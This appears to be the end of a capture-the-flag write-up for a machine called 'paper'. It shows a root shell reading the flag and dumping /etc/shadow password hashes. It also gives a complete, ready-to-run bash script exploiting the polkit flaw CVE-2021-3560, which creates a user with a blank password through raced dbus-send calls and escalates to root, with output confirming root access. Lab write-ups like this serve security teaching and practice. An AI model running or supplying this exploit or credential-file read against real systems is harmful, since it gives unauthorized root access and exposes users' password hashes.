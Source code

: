 ```bash

[root@paper shm]# cat /root/root.txt
2db764e7dc2b0a27f33844524930ab83

[root@paper shm]# cat /etc/shadow
root:$6$rfCS6Tb3sgIjkTux$UhBHq5wWPncgtVnltzm3Squ9KBcX3/9k0y6o8AG6lNSKOobHatUWFzPS1J8uuh/QML6kyhZ10ngXa5nCBLDkL.:18811:0:99999:7:::
dwight:$6$xVlcDig.sohk9jK0$BZEhwP6SZytZTTAMTqjb35j02yMHq/F4jl3WPwqFCtsf0Cbce4pqo3PS8OGXiJdXGE/C4Y4yQZAmiT60wt9OQ/:18811:0:99999:7:::
playerthree::19039:0:99999:7:::
```

**NOTE:** When creating the password, it must be set to blank else it wont work. 

A very simple bash script that does it all for you:
```bash
[dwight@paper shm]$ cat root.sh 
#!/bin/bash
echo "    - CVE-2021-3560 Exploit - "
echo " - Run script until it succeed -"
for i in {1..50} ; do dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:playerthree string:”PlayerThree” int32:1 & sleep 0.003s ; kill $! ; done > /dev/null 2>&1
echo "[+] Created account"
for i in {1..50} ; do dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1005 org.freedesktop.Accounts.User.SetPassword string: string:GoldenEye & sleep 0.003s 2>&1 ; kill $! ; done > /dev/null 2>&1
echo "[+] Set blank password (blank)"
echo "[+] Elevating to root.."
su playerthree -c 'sudo su'
```

```bash
[dwight@paper shm]$ ./root.sh 
    - CVE-2021-3560 Exploit - 
 - Run script until it succeed -
[+] Created account
[+] Set blank password (blank)
[+] Elevating to root..
bash: cannot set terminal process group (583183): Inappropriate ioctl for device
bash: no job control in this shell
[root@paper shm]# id
uid=0(root) gid=0(root) groups=0(root)
```

------

# References
- [Polkit Privesc - CVE-2021-3560](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)
